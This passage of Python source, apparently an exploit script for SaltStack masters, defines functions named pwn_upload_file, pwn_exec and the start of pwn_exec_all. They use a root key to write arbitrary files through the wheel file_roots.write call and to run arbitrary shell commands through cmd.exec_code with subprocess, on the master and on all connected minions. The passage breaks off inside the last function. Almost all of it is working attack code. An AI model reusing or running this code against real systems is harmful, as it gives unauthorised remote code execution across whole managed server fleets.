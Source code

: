 ```python
        'fun': 'file_roots.read',
        'path': path,
        'saltenv': 'base',
    }

    rets = channel.send(msg, timeout=3)
    print(rets['data']['return'][0][path])

def pwn_upload_file(channel, root_key, src, dest, master_ip):
    print("[+] Attemping to upload {} to {} on {}".format(src, dest, master_ip))
    sys.stdout.flush()

    try:
        fh = open(src, 'rb')
        payload = fh.read()
        fh.close()
    except Exception as e:
        print('[-] Failed to read {}: {}'.format(src, e))
        return

    msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'file_roots.write',
        'saltenv': 'base',
        'data': payload,
        'path': dest,
    }

    rets = channel.send(msg, timeout=3)
    print('[ ] {}'.format(rets['data']['return']))

def pwn_exec(channel, root_key, cmd, master_ip, jid):
    print("[+] Attemping to execute {} on {}".format(cmd, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': 'runner',
        'fun': 'salt.cmd',
        'saltenv': 'base',
        'user': 'sudo_user',
        'kwarg': {
            'fun': 'cmd.exec_code',
            'lang': 'python',
            'code': "import subprocess;subprocess.call('{}',shell=True)".format(cmd)
        },
        'jid': jid,
    }

    try:
        rets = channel.send(msg, timeout=3)
    except Exception as e:
        print('[-] Failed to submit job')
        return

    if rets.get('jid'):
        print('[+] Successfully scheduled job: {}'.format(rets['jid']))

def pwn_exec_all(channel, root_key, cmd, master_ip, jid):
    print("[+] Attemping to execute '{}' on all minions connected to {}".format(cmd, master_ip))
    sys.stdout.flush()

```